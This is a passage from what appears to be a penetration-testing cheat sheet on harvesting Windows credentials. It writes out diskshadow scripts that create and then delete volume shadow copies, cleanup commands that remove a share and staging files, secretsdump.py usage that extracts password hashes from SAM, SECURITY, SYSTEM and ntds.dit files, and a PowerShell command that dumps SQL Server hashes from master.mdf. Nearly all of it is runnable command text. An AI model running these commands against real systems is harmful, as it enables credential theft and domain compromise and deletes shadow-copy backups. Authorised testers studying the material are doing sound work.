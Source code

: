```
powershell -c "Add-Content delete_vol.txt 'set context persistent nowriters'"
powershell -c "Add-Content delete_vol.txt 'set metadata C:\Windows\Temp\meta.cab'"
powershell -c "Add-Content delete_vol.txt 'set verbose on'"
powershell -c "Add-Content delete_vol.txt 'unexpose w:'"
powershell -c "Add-Content delete_vol.txt 'delete shadows volume c:'"
powershell -c "Add-Content delete_vol.txt 'reset'"
cmd /c diskshadow.exe /s delete_vol.txt
```

```
// delete_vol.txt
set context persistent nowriters
set metadata C:\Windows\Temp\meta.cab
set verbose on
unexpose w:
delete shadows volume c:
reset
```

Clean up:

```
cmd /c net share pentest /delete
rm -re -fo C:\smb_pentest
rm C:\Windows\Temp\meta.cab
rm add_vol.txt
rm delete_vol.txt
```

Parse secrets:

```
$ secretsdump.py [-pwd-last-set] [-user-status] [-history] -sam sam.hive -system system.hive -security security.hive -ntds ntds.dit LOCAL
```




## master.mdf

* [https://xpnsec.tumblr.com/post/145350063196/reading-mdf-hashes-with-powershell](https://xpnsec.tumblr.com/post/145350063196/reading-mdf-hashes-with-powershell)
* [https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)
* [https://www.nucleustechnologies.com/blog/mdf-file-location-in-sql-server-2014-2016-2017/](https://www.nucleustechnologies.com/blog/mdf-file-location-in-sql-server-2014-2016-2017/)

```
PS > Get-MDFHashes -mdf C:\Invoke-MDFHashes\master.mdf
```




## DPAPI
